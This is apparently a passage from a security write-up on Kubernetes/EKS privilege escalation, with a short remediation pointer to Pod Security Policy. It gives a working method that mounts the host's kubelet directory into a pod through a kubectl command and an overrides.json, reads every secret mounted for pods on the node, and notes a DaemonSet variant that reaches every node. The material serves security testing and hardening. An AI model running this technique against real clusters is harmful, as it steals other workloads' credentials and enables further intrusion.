 ## Bind Mounting Secrets Method
This is the most boring and most effective of the methods I tried.

  * Start with a user with normal pod creation privileges (namespace doesn't matter)
  * Run a pod that has bind mounts the host's kubelet directory: `kubectl run -it --rm --restart=Never --overrides="$(cat overrides.json)" --image=busybox sh`
    
    `overrides.json`:
    ```json
    {
      "apiVersion": "v1",
      "spec": {
        "containers": [
          {
            "name": "shell",
            "image": "busybox",
            "command": ["sh"],
            "stdin": true,
            "stdinOnce": true,
            "tty": true,
            "volumeMounts": [
              {
                "name": "kubelet-volume",
                "mountPath": "/var/lib/kubelet"
              }
            ]
          }
        ],
        "volumes": [
          {
            "name": "kubelet-volume",
            "hostPath": {
              "path": "/var/lib/kubelet"
            }
          }
        ]
      }
    }
    ```
  * Read all currently mounted secrets from `/var/lib/kubelet/pods/*/volumes/kubernetes.io~secret/*`

Escalation from here depends on what's running on the node -- good motivation to limit the privileges of your service accounts, as there is nothing running by default in EKS that would allow further privilege escalation. Another approach would be to run a [DaemonSet](https://kubernetes.io/docs/concepts/workloads/controllers/daemonset/) and grab secrets from every node.

**Result**: access to all secrets for pods scheduled on the underlying host.

# Remediation
Remediating these issues involves limiting these unsafe features via [Pod Security Policy](https://kubernetes.io/docs/concepts/policy/pod-security-policy/).

